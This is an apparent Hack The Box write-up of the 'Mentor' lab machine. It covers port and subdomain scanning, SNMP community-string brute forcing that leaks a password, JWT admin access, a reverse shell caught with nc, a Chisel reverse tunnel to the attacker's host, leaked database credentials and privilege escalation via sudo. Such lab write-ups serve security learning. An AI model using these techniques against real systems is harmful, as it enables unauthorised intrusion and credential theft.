 ## Scanning

We start with nmap port sca and givving as 2 open ports; 22 nd 80 and `udp` ports
```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sU --min-rate 10000 10.10.11.193 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-22 00:02 EST
Nmap scan report for mentorquotes.htb (10.10.11.193)
Host is up (0.086s latency).
Not shown: 993 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
161/udp   open   snmp
1214/udp  closed fasttrack
1993/udp  closed snmp-tcp-port
16862/udp closed unknown
20288/udp closed unknown
21948/udp closed unknown
49968/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
```
Changing the host nmae to `mentorquotes.htb`, giving as a webpage with some motivation quotes.
![](/Hack-The-Box/Mentor/img/1.png)


We used `feroxbuster` for hidden directory scan andgot nothing intresting, so we gone for sub-domain enumeration usung `wfuzz` and found a domain named `api`
```shell
┌──(kali㉿kali)-[~/workspace/HTB/machine/mentor]
└─$ wfuzz -u http://mentorquotes.htb/  -H "Host: FUZZ.mentorquotes.htb" -w /home/kali/workspace/tools/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt --hc 302
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://mentorquotes.htb/
Total requests: 26584

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                           
=====================================================================

000000077:   404        0 L      2 W        22 Ch       "api"          
```
 the page shows nothing intresting 
 ![](/Hack-The-Box/Mentor/img/2.png)

so we did content discovery using `wfuzz` and found something intresting
```shell
┌──(kali㉿kali)-[~/workspace/HTB/machine/mentor]
└─$ wfuzz -u http://api.mentorquotes.htb/FUZZ  -w /home/kali/workspace/tools/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt --hc 404
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://api.mentorquotes.htb/FUZZ
Total requests: 26584

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                           
=====================================================================

000000003:   307        0 L      0 W        0 Ch        "admin"                                                                                                                                           
000000076:   200        30 L     62 W       969 Ch      "docs"                                                                                                                                            
000000129:   307        0 L      0 W        0 Ch        "users"                                                                                                                                           
000001011:   307        0 L      0 W        0 Ch        "quotes"                                                                                                                                          
000003781:   403        9 L      28 W       285 Ch      "server-status"            
```

 ![](/Hack-The-BoxMentor/img/3.png)

since `snmp`  port is open we are brute forcing community string using `nmap`
we found two stirings named `public and internal` so using `snmpwalk ` we do some basic enumerations and found a intresting password from `internal` 
` STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"`

Let’s try to sign up for a new account using the email address `james@mentorquotes.htb`

 ![](/Hack-The-Box/Mentor/img/5.png)

The sign-up process did not work using the email address that we found. Let’s try using a different email address instead.

![](/Hack-The-Box/Mentor/img/6.png)
 
Now that we have created a new account, let’s try using the login function to access it

![](/Hack-The-Box/Mentor/img/7.png)

Upon successful login, the login function provided us with a JWT (JSON Web Token), which we can use to authenticate future requests to the website.
We are using this JWT to access `GET /users` along with  `Authorization` header

![](/Hack-The-Box/Mentor/img/8.png)

We received a response stating that only an administrator can access this resource.So from `snmpwalk` we found a password using that password we tried to login and get a valid JWT.

![](/Hack-The-Box/Mentor/img/9.png)

let’s try the function using the new JWT to see if we have the necessary permissions.

![](/Hack-The-Box/Mentor/img/10.png)
we were able to successfully run the ‘get users’ function and retrieve the list of users.

let’s check the contents of the ‘admin’ directory.
![](/Hack-The-Box/Mentor/img/11.png)

`/check` was not implemented yet and changing the method of `/backup` gives a response
![](/Hack-The-Box/Mentor/img/12.png)

since api is more verbose we add some wrong parametrs to find the orginal response 

![](/Hack-The-Box/Mentor/img/13.png)

now we try to create our revershell payload.
![](/Hack-The-Box/Mentor/img/14.png)

we get shell as root 
```shell
┌──(kali㉿kali)-[~/workspace/HTB/machine/mentor]
└─$ nc -nvlp 7878                  
listening on [any] 7878 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.11.193] 45147
/bin/sh: can't access tty; job control turned off
/app # whoami
root
/app # 
```
now we realize that we are indside a docker container.
After reviewing the local files, we found a file called ‘db.py’ located in the ‘/app/app’ directory. This file contains information about the PostgreSQL database.

```python
import os

from sqlalchemy import (Column, DateTime, Integer, String, Table, create_engine, MetaData)
from sqlalchemy.sql import func
from databases import Database

# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")

# SQLAlchemy for quotes
engine = create_engine(DATABASE_URL)
metadata = MetaData()
quotes = Table(
    "quotes",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("title", String(50)),
    Column("description", String(50)),
    Column("created_date", DateTime, default=func.now(), nullable=False)
)

# SQLAlchemy for users
engine = create_engine(DATABASE_URL)
metadata = MetaData()
users = Table(
    "users",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("email", String(50)),
    Column("username", String(50)),
    Column("password", String(128) ,nullable=False)
)


# Databases query builder
database = Database(DATABASE_URL)

```
In order to access the database we need to tunnel to our machine and use the credentials.

## Tunneling

Use  Chisel to create a tunnel to our machine and use the credentials that we found in the ‘db.py’ file.

`our machine: ./chisel_1.7.7_linux_amd64  server --port 9595 --reverse`

`docker shell: ./chisel_1.7.7_linux_amd64 client -v 10.10.14.12:9595 R:5432:172.22.0.1:5432`

Now we are able to acesss the database
`psql -h 127.0.0.1 -p 5432 -d mentorquotes_db -U postgres`

![](/Hack-The-Box/Mentor/img/15.png)

we were able to carck service_acc hash password `123meunomeeivani`

while running `linepeas` we found `snmpd.conf` file.These file usually contains sensitive credentials or information

![](/Hack-The-Box/Mentor/img/16.png)

there is our password

![](/Hack-The-Box/Mentor/img/17.png)

Now we are able to loginas user `james`. User james have the privilege to run `/bin/sh` as sudo user,which help us to gain root privilegs.


![](/Hack-The-Box/Mentor/img/18.png)



![](/Hack-The-Box/Mentor/img/19.png)
